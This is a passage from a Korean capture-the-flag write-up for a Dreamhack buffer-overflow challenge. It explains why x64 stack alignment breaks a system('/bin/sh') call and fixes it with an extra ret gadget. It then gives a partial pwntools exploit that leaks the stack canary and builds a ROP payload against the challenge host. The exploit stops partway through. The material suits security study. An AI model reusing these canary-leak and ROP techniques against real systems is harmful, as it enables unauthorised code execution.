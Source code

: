 이렇게 작성한 결과 쉘을 획득하지 못했다. 

그 이유로는 [https://hackyboiz.github.io/2020/12/06/fabu1ous/x64-stack-alignment/](https://hackyboiz.github.io/2020/12/06/fabu1ous/x64-stack-alignment/) 에서 자세히 설명하고 있는데 64비트 환경의 경우 system함수 내부에서 movaps 명령어를 사용하기 때문에 stack을 0x10단위로 맞춰줘야 한다. 

Linux 64 [ABI](https://software.intel.com/sites/default/files/article/402129/mpx-linux64-abi.pdf) ( Application binary interface )에 따르면 프로그램의 흐름( control )이 함수의 entry로 옮겨지는 시점에선 스택 포인터(rsp)+8이 항상 16의 배수여야한다. 왜냐면 함수의 entry에서 push rbp를 해주기 때문에 스택에 8바이트만큼 값이 들어가서 이 때는 RSP+8이 0x10단위로 맞춰져야 하는 것이다. 

정상적인 코드에서는 알아서 이 64비트 환경에서 알아서 스택의 환경(stack alignment)을 꼭 맞춰줘야 할 때(SSE Instruction을 실행할 때는 맞춰져 있어야함) 는 맞춰주는데 우리는 BOF로 인해 정상적으로 함수를 호출하는 것이 아니기 때문에 system 함수에 있는 movaps(SSE Instruction)을 실행할 때 이 스택의 환경이 어긋나게 된 것이다.

CALL Instruction의 경우 스택의 RSP 값이 변화하게 되는데 CALL로 함수를 호출하면서 Stack Frame에 rbp값을 넣어주며 일시적으로 stack의 환경(stack alignment)가 0x10 단위가 깨지게 된다. 하지만 끝날 때 ret(pop rip, jmp rip)를 통해서 스택에서 값을 하나 pop 해주기 때문에 RSP값은 RSP+8이 된다.

즉 정리하면 stack alignment (0x10단위 맞춰주기)를 꼭 해줘야 할때가 SSE Instruction이 실행될 때인데 그 대표적인 instruction이 system 함수에 있는 movaps이다. 따라서 system 함수를 호출할때는 이 0x10단위를 맞춰주기를 해야하는데 그러려면 RSP 값을 조절을 해줘야 한다. 조절해 줄 수 있는 명령어는 CALL과 RET 두개가 있다 

CALL을 통해서 함수를 호출하면 스택 프레임 오프닝으로 인해서(push rbp) 내부적으로 RSP-8이 되었다가 그 함수가 종료되면서 RET(pop rip)를 통해 RSP+8이 된다. 즉 RET이 RSP값을 8만큼 늘려주는 역할을 하는 것이다.

- RET → RSP + 8

근데 우리가 BOF를 이용해서 할 때는 CALL을 이용해서 호출하는 것이 아닌 ret을 이용해서 함수를 호출해주는데 이렇게 함수를 호출해주고 나면 stack alignment가 깨지는 경우가 있다. 

우리가 짠 코드에서도 CALL을 이용해서 호출하는 것이 아닌 pop rdi; ret를 통해서 rdi값(”/bin/sh”)을 스택에서 빼주고 ret를 통해서 system@plt를 실행시켜준다. 그런데 이 때 stack alignment가 깨졌기 때문에 익스플로잇이 잘 안된다. 따라서 RSP 값을 +8해주기 위해 ret 가젯을 넣어준다.

(ret)

(pop rdi; ret)

의 형태로 스택에 넣어주면 첫번째 ret는 pop rip, jmp rip가 된다. 그럼 이 때 pop은 rsp+8의 위치인 (pop rdi; ret)의 주소가 되어 (pop rdi; ret)가 실행이 된다. 

즉 pop rdi; ret가 실행이 되는 것은 똑같으나 stack alignment를 맞춰주기 위해 즉 RSP+8을 해주기 위해 pop rdi; ret 가젯 위에 ret 가젯을 넣어준 것이다.

RET 가젯의 주소를 ROPgadget 명령어를 통해 알아내자.

![KakaoTalk_20220917_204605183.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6d1e974f-3ffa-4104-9cba-9841e77a0f45/KakaoTalk_20220917_204605183.png)

ret 가젯의 주소는 0x400285임을 확인할 수 있다. 이제 다시 익스 코드를 짜보자.

```python
from pwn import *

host="host3.dreamhack.games"
port=10252

p=remote(host,port)

canary_payload=b'A'*0x39

p.sendafter("Buf: ",canary_payload)
p.recvuntil(canary_payload)
canary=p64(u64(b'\x00'+p.recvn(7)))

print(hex(u64(canary)))

pop_rdi=p64(0x400853)
bin_sh=p64(0x400874)
system_plt=p64(0x4005d0)

payload=b'A'*0x38+canary+b'A'*8
payload += p64(0x400285) # ret
```
